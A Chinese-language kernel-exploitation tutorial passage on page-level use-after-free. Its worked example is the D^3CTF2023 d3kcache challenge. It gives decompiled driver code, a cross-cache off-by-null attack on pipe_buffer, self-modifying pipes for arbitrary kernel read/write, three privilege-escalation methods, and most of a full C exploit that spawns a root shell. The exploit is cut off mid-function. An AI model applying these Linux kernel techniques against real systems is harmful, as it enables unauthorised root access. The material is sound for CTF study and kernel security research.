



# Page-level UAF

**Page-level UAF** 同樣是**針對 buddy system** 的利用手法，這種攻擊手法主要指的是對內存頁結構體 `page` 的釋放後利用，例如我們可以通過內存頁重分配的方式將 UAF page 分配爲指定 `kmem_cache` 的 `slub pages` ，**從而實現無需任何限制的跨** `kmem_cache` **的 UAF 利用**。

## 例題：D^3CTF2023 - d3kcache

> 題目可在[此處](https://github.com/arttnba3/D3CTF2023_d3kcache)下載。

### 題目分析

題目逆向起來應該還是比較簡單的，在模塊初始化函數中創建了一個獨立的 `kmem_cache` ，對象大小爲 2048：

```c
__int64 sub_529()
{
  printk(&unk_96B);
  major_num = _register_chrdev(0LL, 0LL, 256LL, "d3kcache", &d3kcache_fo);
  if ( major_num >= 0 )
  {
    module_class = _class_create(&_this_module, "d3kcache", &d3kcache_module_init___key);
    if ( (unsigned __int64)module_class < 0xFFFFFFFFFFFFF001LL )
    {
      printk(&unk_A0D);
      module_device = device_create(module_class, 0LL, (unsigned int)(major_num << 20), 0LL, "d3kcache");
      if ( (unsigned __int64)module_device < 0xFFFFFFFFFFFFF001LL )
      {
        printk(&unk_A66);
        spin = 0;
        kcache_jar = kmem_cache_create_usercopy("kcache_jar", 2048LL, 0LL, 67379200LL, 0LL, 2048LL, 0LL);
        memset(&kcache_list, 0, 0x100uLL);
      }
      else
      {
        class_destroy(module_class);
        _unregister_chrdev((unsigned int)major_num, 0LL, 256LL, "d3kcache");
        printk(&unk_A3B);
      }
    }
    else
    {
      _unregister_chrdev((unsigned int)major_num, 0LL, 256LL, "d3kcache");
      printk(&unk_9DE);
    }
  }
  else
  {
    printk(&unk_9AD);
  }
  return _x86_return_thunk(0LL, 0LL, 0LL, 0LL, 0LL, 0LL);
}
```

自定義的 ioctl 函數提供了分配、追加編輯、釋放、讀取的一個堆菜單，漏洞便出在追加編輯當中，當寫滿 2048 字節時存在着一個 `\0` 字節的溢出：

```c
__int64 __fastcall sub_99(__int64 a1, int a2, __int64 a3)
{
  __int64 v4; // r8
  __int64 v5; // r9
  int v7; // ecx
  __int64 v8; // r14
  __int64 v9; // r15
  __int64 v10; // r12
  int v11; // ecx
  __int64 v12; // rbx
  __int64 v13; // r14
  __int64 v14; // r15
  __int64 v15; // rax
  __int64 v16; // r15
  unsigned int v17; // er13
  __int64 v18; // r14
  __int64 v19; // r12
  __int64 v20; // r14
  unsigned __int64 v21; // rbx
  __int64 v22; // rax
  __int64 v23; // r12
  unsigned __int64 v24; // rbx
  void *v25; // rdi
  unsigned int v26; // [rsp+0h] [rbp-40h] BYREF
  unsigned int v27; // [rsp+4h] [rbp-3Ch]
  __int64 v28; // [rsp+8h] [rbp-38h]
  unsigned __int64 v29; // [rsp+10h] [rbp-30h]

  v29 = __readgsqword(0x28u);
  raw_spin_lock(&spin);
  if ( copy_from_user(&v26, a3, 16LL) )
    goto LABEL_2;
  if ( a2 > 2063 )
  {
    if ( a2 == 2064 )
    {
      if ( v26 > 0xFuLL || !qword_17D8[2 * v26] )
      {
        v25 = &unk_882;
        goto LABEL_46;
      }
      kmem_cache_free(kcache_jar);
      v20 = (int)v26;
      if ( (unsigned __int64)(int)v26 > 0xF )
      {
        _ubsan_handle_out_of_bounds(&off_12A0, v26);
        v21 = (int)v26;
        qword_17D8[2 * v20] = 0LL;
        if ( v21 >= 0x10 )
          _ubsan_handle_out_of_bounds(&off_12C0, (unsigned int)v21);
      }
      else
      {
        qword_17D8[2 * (int)v26] = 0LL;
        v21 = (unsigned int)v20;
      }
      kcache_list[4 * v21] = 0;
    }
    else
    {
      if ( a2 != 6425 )
        goto LABEL_42;
      if ( v26 > 0xFuLL || !qword_17D8[2 * v26] )
      {
        v25 = &unk_85D;
        goto LABEL_46;
      }
      v11 = v27;
      if ( v27 > kcache_list[4 * v26] )
        v11 = kcache_list[4 * v26];
      if ( v11 < 0 )
        BUG();
      v12 = (unsigned int)v11;
      v13 = qword_17D8[2 * v26];
      v14 = v28;
      _check_object_size(v13, (unsigned int)v11, 1LL);
      copy_to_user(v14, v13, v12);
    }
  }
  else
  {
    if ( a2 != 276 )
    {
      if ( a2 == 1300 )
      {
        if ( v26 <= 0xFuLL && qword_17D8[2 * v26] )
        {
          v7 = v27;
          if ( v27 > 0x800 || v27 + kcache_list[4 * v26] >= 0x800 )
            v7 = 2048 - kcache_list[4 * v26];
          if ( v7 < 0 )
            BUG();
          v8 = qword_17D8[2 * v26] + (unsigned int)kcache_list[4 * v26];
          v9 = (unsigned int)v7;
          v10 = v28;
          _check_object_size(v8, (unsigned int)v7, 0LL);
          if ( !copy_from_user(v8, v10, v9) )
            *(_BYTE *)(v8 + v9) = 0; /* vulnerability here */
          goto LABEL_2;
        }
        v25 = &unk_837;
LABEL_46:
        printk(v25);
        goto LABEL_2;
      }
LABEL_42:
      v25 = &unk_8AA;
      goto LABEL_46;
    }
    if ( v26 >= 0x10uLL )
    {
      v25 = &unk_782;
      goto LABEL_46;
    }
    if ( qword_17D8[2 * v26] )
    {
      v25 = &unk_7F6;
      goto LABEL_46;
    }
    v15 = kmem_cache_alloc(kcache_jar, 3520LL);
    if ( !v15 )
    {
      v25 = &unk_81A;
      goto LABEL_46;
    }
    v16 = v15;
    v17 = v27;
    v18 = 2048LL;
    if ( v27 < 0x800 )
      v18 = v27;
    v19 = v28;
    _check_object_size(v15, v18, 0LL);
    if ( copy_from_user(v16, v19, v18) )
    {
      kmem_cache_free(kcache_jar);
    }
    else
    {
      v22 = 2047LL;
      if ( v17 < 0x7FF )
        v22 = v17;
      *(_BYTE *)(v16 + v22) = 0;
      v23 = (int)v26;
      if ( (unsigned __int64)(int)v26 > 0xF )
      {
        _ubsan_handle_out_of_bounds(&off_1260, v26);
        v24 = (int)v26;
        qword_17D8[2 * v23] = v16;
        if ( v24 >= 0x10 )
          _ubsan_handle_out_of_bounds(&off_1280, (unsigned int)v24);
      }
      else
      {
        qword_17D8[2 * (int)v26] = v16;
        v24 = (unsigned int)v23;
      }
      kcache_list[4 * v24] = v18;
    }
  }
LABEL_2:
  raw_spin_unlock(&spin);
  return _x86_return_thunk(0LL, 0LL, 0LL, 0LL, v4, v5);
}
```

同時查看題目所提供的內核編譯文件，可以發現**開啓了 Control Flow Integrity 保護**：

```
CONFIG_CFI_CLANG=y
```

其他的各種常規保護（KPTI、KASLR、Hardened Usercopy、...）基本上都是開啓的，這裏就不闡述了。

> 當然，現在做內核漏洞利用自然要默認這些保護都開了：）

### 漏洞利用

由於題目所在的 `kmem_cache` 爲一個獨立的  `kmem_cache` ，因此我們只能考慮 **cross-cache overflow**：**溢出到其他結構體所在頁面上完成利用**。

> 畢竟你總不能指望在 freelist 相關保護都開啓的情況下 free object 的 next 指針剛好在前 8 字節然後覆寫又剛好能把 freelist 劫持到有效可控地址上：）

#### Step.I - 頁級堆風水構造穩定跨頁溢出佈局

> 頁級堆風水的實現細節在上一章中已有講述，這裏不再贅敘。

爲了保證溢出的穩定性，這裏筆者使用頁級堆風水的方法來構造**預溢出佈局**，通過頁級堆風水獲得**對一塊連續內存的頁級掌控**，從而可以這樣構造出如下圖所示堆佈局：

- 先釋放一部分頁面，讓 victim object 取得這些頁面
- 釋放一份頁面，向題目模塊請求分配對象，從而獲得該份頁面
- 再釋放一部分頁面，讓 victim object 取得這些頁面

這樣題目所在的頁面便會被夾在 victim 對象的頁面中間，使得**溢出的穩定性大幅增加**。


#### Step.II - fcntl(F\_SETPIPE\_SZ) 更改 pipe\_buffer 所在 slub 大小，跨頁溢出構造頁級 UAF

接下來我們考慮溢出的目標對象，由於僅有一個字節的溢出，毫無疑問的是我們需要尋找一些在結構體頭部便有指向其他內核對象的指針的內核對象，我們不難想到的是 `pipe_buffer` 是一個非常好的的利用對象，其開頭有着指向 `page` 結構體的指針，而 `page` 的大小僅爲 `0x40` ，可以被 0x100 整除，若我們能夠**通過 partial overwrite 使得兩個管道指向同一張頁面，並釋放掉其中一個**，我們便構造出了**頁級的 UAF**：




同時**管道的特性還能讓我們在 UAF 頁面上任意讀寫**，這使得我們可以**將該 page 分配爲其他 kmem\_cache 的 slub pages 後，利用管道對上面的對象實現任意讀寫**。

但是有一個小問題，`pipe_buffer` 來自於 `kmalloc-cg-1k` ，其會請求 order-2 的頁面，而題目模塊的對象大小爲 2k，其會請求 order-3 的頁面，如果我們直接進行不同 order 間的堆風水的話，則利用成功率會大打折扣 。

現在讓我們重新審視 `pipe_buffer` 的分配過程，其實際上是單次分配 `pipe_bufs` 個 `pipe_buffer` 結構體：

```c
struct pipe_inode_info *alloc_pipe_info(void)
{
	//...

	pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
```

這裏注意到 `pipe_buffer` **不是一個常量而是一個變量**，那麼**我們能否有方法修改 pipe\_buffer 的數量？**答案是肯定的，pipe 系統調用非常貼心地爲我們提供了 `F_SETPIPE_SZ` **讓我們可以重新分配 pipe\_buffer 並指定其數量**：

```c
long pipe_fcntl(struct file *file, unsigned int cmd, unsigned long arg)
{
	struct pipe_inode_info *pipe;
	long ret;

	pipe = get_pipe_info(file, false);
	if (!pipe)
		return -EBADF;

	__pipe_lock(pipe);

	switch (cmd) {
	case F_SETPIPE_SZ:
		ret = pipe_set_size(pipe, arg);
//...

static long pipe_set_size(struct pipe_inode_info *pipe, unsigned long arg)
{
	//...

	ret = pipe_resize_ring(pipe, nr_slots);

//...

int pipe_resize_ring(struct pipe_inode_info *pipe, unsigned int nr_slots)
{
	struct pipe_buffer *bufs;
	unsigned int head, tail, mask, n;

	bufs = kcalloc(nr_slots, sizeof(*bufs),
		       GFP_KERNEL_ACCOUNT | __GFP_NOWARN);
```

那麼我們不難想到的是**我們可以通過 fcntl() 重新分配單個 pipe 的 pipe\_buffer 數量，**：

- 對於每個 pipe 我們**指定分配 64 個 pipe\_buffer，從而使其向 kmalloc-cg-2k 請求對象，而這將最終向 buddy system 請求 order-3 的頁面**

由此，我們便成功使得 `pipe_buffer` 與題目模塊的對象**處在同一 order 的內存頁上**，從而提高 cross-cache overflow 的成功率。

不過需要注意的是，由於 page 結構體的大小爲 0x40，其可以被 0x100 整除，因此若我們所溢出的目標 page 的地址最後一個字節剛好爲 `\x00`，  _那就等效於沒有溢出_  ，因此實際上利用成功率僅爲 `75% ` 。

#### Step.III - 構造二級自寫管道，實現任意內存讀寫

有了 page-level UAF，我們接下來考慮向這張頁面分配什麼結構體作爲下一階段的 victim object。

由於管道本身便提供給我們讀寫的功能，而我們又能夠調整 `pipe_buffer` 的大小並重新分配結構體，那麼再次選擇 `pipe_buffer` 作爲 victim object 便是再自然不過的事情：



接下來我們可以通過 UAF 管道**讀取 pipe\_buffer 內容，從而泄露出 page、pipe\_buf\_operations 等有用的數據**（可以在重分配前預先向管道中寫入一定長度的內容，從而實現數據讀取），由於我們可以通過 UAF 管道直接改寫 `pipe_buffer` ，因此將漏洞轉化爲 dirty pipe 或許會是一個不錯的辦法（這也是本次比賽中 NU1L 戰隊的解法）

但是 pipe 的強大之處遠不止這些，由於我們可以對 UAF 頁面上的 `pipe_buffer` 進行讀寫，我們可以**繼續構造出第二級的 page-level UAF**：


爲什麼要這麼做呢？在第一次 UAF 時我們獲取到了 page 結構體的地址，而 page 結構體的大小固定爲 0x40，**且與物理內存頁一一對應**，試想若是我們可以不斷地修改一個 pipe 的 page 指針，**則我們便能完成對整個內存空間的任意讀寫**，因此接下來我們要完成這樣的一個利用系統的構造。

再次重新分配 `pipe_buffer` 結構體到第二級 page-level UAF 頁面上，**由於這張物理頁面對應的 page 結構體的地址對我們而言是已知的，我們可以直接讓這張頁面上的 pipe\_buffer 的 page 指針指向自身，從而直接完成對自身的修改**：



這裏我們可以篡改 `pipe_buffer.offset` 與 `pipe_buffer.len` 來移動 pipe 的讀寫起始位置，從而實現無限循環的讀寫，但是這兩個變量會在完成讀寫操作後重新被賦值，因此這裏我們使用**三個管道**：

- 第一個管道用以進行內存空間中的任意讀寫，我們通過修改其 page 指針完成 ：）
- 第二個管道用以修改第三個管道，使其寫入的起始位置指向第一個管道
- 第三個管道用以修改第一個與第二個管道，使得第一個管道的 pipe 指針指向指定位置、第二個管道的寫入起始位置指向第三個管道

通過這三個管道之間互相循環修改，我們便**實現了一個可以在內存空間中進行近乎無限制的任意讀寫系統**。

#### Step.IV - 提權

有了內存空間中的任意讀寫，提權便是非常簡便的一件事情了，這裏筆者給出三種提權方法。

##### 方法一、修改當前進程的 task\_struct 的 cred 爲 init\_cred

`init_cred` 爲有着 root 權限的 cred，我們可以直接將當前進程的 cred 修改爲該 cred 以完成提權，這裏iwom可以通過 `prctl(PR_SET_NAME, "arttnba3pwnn");` 修改 `task_struct.comm` ，從而方便搜索當前進程的 `task_struct` 在內存空間中的位置。

不過 `init_cred` 的符號有的時候是不在 `/proc/kallsyms` 中導出的，我們在調試時未必能夠獲得其地址，因此這裏筆者選擇通過解析 `task_struct` 的方式向上一直找到 `init` 進程（所有進程的父進程）的 `task_struct` ，從而獲得 `init_cred` 的地址。

##### 方法二、內核頁表解析獲取內核棧物理地址，利用直接映射區覆寫內核棧完成 ROP

**開啓了 CFI 並不代表我們便不能夠在內核空間中進行任意代碼執行了**。由於 page 結構體數組與物理內存頁一一對應的緣故，我們可以很輕易地在物理地址與 page 結構體地址間進行轉換，而在頁表當中存放的是物理地址，我們不難想到的是**我們可以通過解析當前進程的頁表來獲取到內核棧的物理地址，從而獲取到內核棧對應的 page**，之後我們可以**直接向內核棧上寫 ROP chain 來完成任意代碼執行**。

頁表的地址可以通過 `mm_struct` 獲取， `mm_struct` 地址可以通過 `task_struct` 獲取，內核棧地址同樣可以通過 `task_struct` 獲取，那麼這一切其實是水到渠成的事情。

> 但這種方法有一個缺陷，我們會**有一定概率沒法直接寫到當前進程的內核棧上**（也不知道寫哪去了），從而導致 ROP 失敗，**原因不明**
>
> > 筆者暫時沒有發現整個過程的原理存在缺陷的地方，甚至嘗試多次重新解析頁表（得到的內核棧地址不變）然後寫入數據後仍舊無事發生，也不知道究竟是哪出了問題 ：(

##### 方法三、內核頁表解析獲取代碼段物理地址，改寫內核頁表建立新映射實現 USMA

既然我們能夠進行內存空間中的任意讀寫，**直接改寫內核代碼段也是一個實現任意代碼執行的好辦法**，但是直接映射區對應的內核代碼段區域**沒有可寫入權限，直接寫會導致 kernel panic。**

但是改寫內核代碼段本質上便是向對應的物理頁寫入數據，而我們又能夠讀寫進程頁表，**我們直接在用戶空間建立一個到內核代碼段對應物理內存的映射就能改寫內核代碼段了。**

方便起見，我們可以先通過 `mmap()` 隨便映射一塊內存，之後改寫 `mmap()` 的虛擬地址在頁表中對應的物理地址即可，這種方法本質上其實就是 [用戶態映射攻擊](https://vul.360.net/archives/391)。

##### Final Exploitation

最終的完整 exp 如下，**同時包含筆者所給出的三種提權手段的代碼**：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sched.h>
#include <sys/prctl.h>
#include <sys/ioctl.h>
#include <sys/socket.h>
#include <sys/mman.h>

/**
 * I - fundamental functions
 * e.g. CPU-core binder, user-status saver, etc.
 */

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;
size_t page_offset_base = 0xffff888000000000, vmemmap_base = 0xffffea0000000000;
size_t init_task, init_nsproxy, init_cred;

size_t direct_map_addr_to_page_addr(size_t direct_map_addr)
{
    size_t page_count;

    page_count = ((direct_map_addr & (~0xfff)) - page_offset_base) / 0x1000;
    
    return vmemmap_base + page_count * 0x40;
}

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}

/* root checker and shell poper */
void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}

/* userspace status saver */
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

/**
 * @brief create an isolate namespace
 * note that the caller **SHOULD NOT** be used to get the root, but an operator
 * to perform basic exploiting operations in it only
 */
void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}

struct page;
struct pipe_inode_info;
struct pipe_buf_operations;

/* read start from len to offset, write start from offset */
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};

struct pipe_buf_operations {
	/*
	 * ->confirm() verifies that the data in the pipe buffer is there
	 * and that the contents are good. If the pages in the pipe belong
	 * to a file system, we may need to wait for IO completion in this
	 * hook. Returns 0 for good, or a negative error value in case of
	 * error.  If not present all pages are considered good.
	 */
	int (*confirm)(struct pipe_inode_info *, struct pipe_buffer *);

	/*
	 * When the contents of this pipe buffer has been completely
	 * consumed by a reader, ->release() is called.
	 */
	void (*release)(struct pipe_inode_info *, struct pipe_buffer *);

	/*
	 * Attempt to take ownership of the pipe buffer and its contents.
	 * ->try_steal() returns %true for success, in which case the contents
	 * of the pipe (the buf->page) is locked and now completely owned by the
	 * caller. The page may then be transferred to a different mapping, the
	 * most often used case is insertion into different file address space
	 * cache.
	 */
	int (*try_steal)(struct pipe_inode_info *, struct pipe_buffer *);

	/*
	 * Get a reference to the pipe buffer.
	 */
	int (*get)(struct pipe_inode_info *, struct pipe_buffer *);
};

/**
 * II - interface to interact with /dev/kcache
 */
#define KCACHE_SIZE 2048
#define KCACHE_NUM 0x10

#define KCACHE_ALLOC 0x114
#define KCACHE_APPEND 0x514
#define KCACHE_READ 0x1919
#define KCACHE_FREE 0x810

struct kcache_cmd {
    int idx;
    unsigned int sz;
    void *buf;
};

int dev_fd;

int kcache_alloc(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = {
        .idx = index,
        .sz = size,
        .buf = buf,
    };

    return ioctl(dev_fd, KCACHE_ALLOC, &cmd);
}

int kcache_append(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = {
        .idx = index,
        .sz = size,
        .buf = buf,
    };

    return ioctl(dev_fd, KCACHE_APPEND, &cmd);
}

int kcache_read(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = {
        .idx = index,
        .sz = size,
        .buf = buf,
    };

    return ioctl(dev_fd, KCACHE_READ, &cmd);
}

int kcache_free(int index)
{
    struct kcache_cmd cmd = {
        .idx = index,
    };

    return ioctl(dev_fd, KCACHE_FREE, &cmd);
}

/**
 * III -  pgv pages sprayer related 
 * not that we should create two process:
 * - the parent is the one to send cmd and get root
 * - the child creates an isolate userspace by calling unshare_setup(),
 *      receiving cmd from parent and operates it only
 */
#define PGV_PAGE_NUM 1000
#define PACKET_VERSION 10
#define PACKET_TX_RING 13

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

/* each allocation is (size * nr) bytes, aligned to PAGE_SIZE */
struct pgv_page_request {
    int idx;
    int cmd;
    unsigned int size;
    unsigned int nr;
};

/* operations type */
enum {
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};

/* tpacket version for setsockopt */
enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

/* pipe for cmd communication */
int cmd_pipe_req[2], cmd_pipe_reply[2];

/* create a socket and alloc pages, return the socket fd */
int create_socket_and_alloc_pages(unsigned int size, unsigned int nr)
{
    struct tpacket_req req;
    int socket_fd, version;
    int ret;

    socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    if (socket_fd < 0) {
        printf("[x] failed at socket(AF_PACKET, SOCK_RAW, PF_PACKET)\n");
        ret = socket_fd;
        goto err_out;
    }

    version = TPACKET_V1;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_VERSION, 
                     &version, sizeof(version));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_VERSION)\n");
        goto err_setsockopt;
    }

    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = nr;
    req.tp_frame_size = 0x1000;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr) / req.tp_frame_size;

    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_TX_RING)\n");
        goto err_setsockopt;
    }

    return socket_fd;

err_setsockopt:
    close(socket_fd);
err_out:
    return ret;
}

/* the parent process should call it to send command of allocation to child */
int alloc_page(int idx, unsigned int size, unsigned int nr)
{
    struct pgv_page_request req = {
        .idx = idx,
        .cmd = CMD_ALLOC_PAGE,
        .size = size,
        .nr = nr,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(struct pgv_page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    return ret;
}

/* the parent process should call it to send command of freeing to child */
int free_page(int idx)
{
    struct pgv_page_request req = {
        .idx = idx,
        .cmd = CMD_FREE_PAGE,
    };
    int ret;

    write(cmd_pipe_req[1], &req, sizeof(req));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));

    usleep(10000);

    return ret;
}

/* the child, handler for commands from the pipe */
void spray_cmd_handler(void)
{
    struct pgv_page_request req;
    int socket_fd[PGV_PAGE_NUM];
    int ret;

    /* create an isolate namespace*/
    unshare_setup();

    /* handler request */
    do {
        read(cmd_pipe_req[0], &req, sizeof(req));

        if (req.cmd == CMD_ALLOC_PAGE) {
            ret = create_socket_and_alloc_pages(req.size, req.nr);
            socket_fd[req.idx] = ret;
        } else if (req.cmd == CMD_FREE_PAGE) {
            ret = close(socket_fd[req.idx]);
        } else {
            printf("[x] invalid request: %d\n", req.cmd);
        }

        write(cmd_pipe_reply[1], &ret, sizeof(ret));
    } while (req.cmd != CMD_EXIT);
}

/* init pgv-exploit subsystem :) */
void prepare_pgv_system(void)
{
    /* pipe for pgv */
    pipe(cmd_pipe_req);
    pipe(cmd_pipe_reply);
    
    /* child process for pages spray */
    if (!fork()) {
        spray_cmd_handler();
    }
}

/**
 * IV - config for page-level heap spray and heap fengshui
 */
#define PIPE_SPRAY_NUM 200

#define PGV_1PAGE_SPRAY_NUM 0x20

#define PGV_4PAGES_START_IDX PGV_1PAGE_SPRAY_NUM
#define PGV_4PAGES_SPRAY_NUM 0x40

#define PGV_8PAGES_START_IDX (PGV_4PAGES_START_IDX + PGV_4PAGES_SPRAY_NUM)
#define PGV_8PAGES_SPRAY_NUM 0x40

int pgv_1page_start_idx = 0;
int pgv_4pages_start_idx = PGV_4PAGES_START_IDX;
int pgv_8pages_start_idx = PGV_8PAGES_START_IDX;

/* spray pages in different size for various usages */
void prepare_pgv_pages(void)
{
    /**
     * We want a more clear and continuous memory there, which require us to 
     * make the noise less in allocating order-3 pages.
     * So we pre-allocate the pages for those noisy objects there.
     */
    puts("[*] spray pgv order-0 pages...");
    for (int i = 0; i < PGV_1PAGE_SPRAY_NUM; i++) {
        if (alloc_page(i, 0x1000, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    puts("[*] spray pgv order-2 pages...");
    for (int i = 0; i < PGV_4PAGES_SPRAY_NUM; i++) {
        if (alloc_page(PGV_4PAGES_START_IDX + i, 0x1000 * 4, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    /* spray 8 pages for page-level heap fengshui */
    puts("[*] spray pgv order-3 pages...");
    for (int i = 0; i < PGV_8PAGES_SPRAY_NUM; i++) {
        /* a socket need 1 obj: sock_inode_cache, 19 objs for 1 slub on 4 page*/
        if (i % 19 == 0) {
            free_page(pgv_4pages_start_idx++);
        }

        /* a socket need 1 dentry: dentry, 21 objs for 1 slub on 1 page */
        if (i % 21 == 0) {
            free_page(pgv_1page_start_idx += 2);
        }

        /* a pgv need 1 obj: kmalloc-8, 512 objs for 1 slub on 1 page*/
        if (i % 512 == 0) {
            free_page(pgv_1page_start_idx += 2);
        }

        if (alloc_page(PGV_8PAGES_START_IDX + i, 0x1000 * 8, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }

    puts("");
}

/* for pipe escalation */
#define SND_PIPE_BUF_SZ 96
#define TRD_PIPE_BUF_SZ 192

int pipe_fd[PIPE_SPRAY_NUM][2];
int orig_pid = -1, victim_pid = -1;
int snd_orig_pid = -1, snd_vicitm_pid = -1;
int self_2nd_pipe_pid = -1, self_3rd_pipe_pid = -1, self_4th_pipe_pid = -1;

struct pipe_buffer info_pipe_buf;

int extend_pipe_buffer_to_4k(int start_idx, int nr)
{
    for (int i = 0; i < nr; i++) {
        /* let the pipe_buffer to be allocated on order-3 pages (kmalloc-4k) */
        if (i % 8 == 0) {
            free_page(pgv_8pages_start_idx++);
        }

        /* a pipe_buffer on 1k is for 16 pages, so 4k for 64 pages */
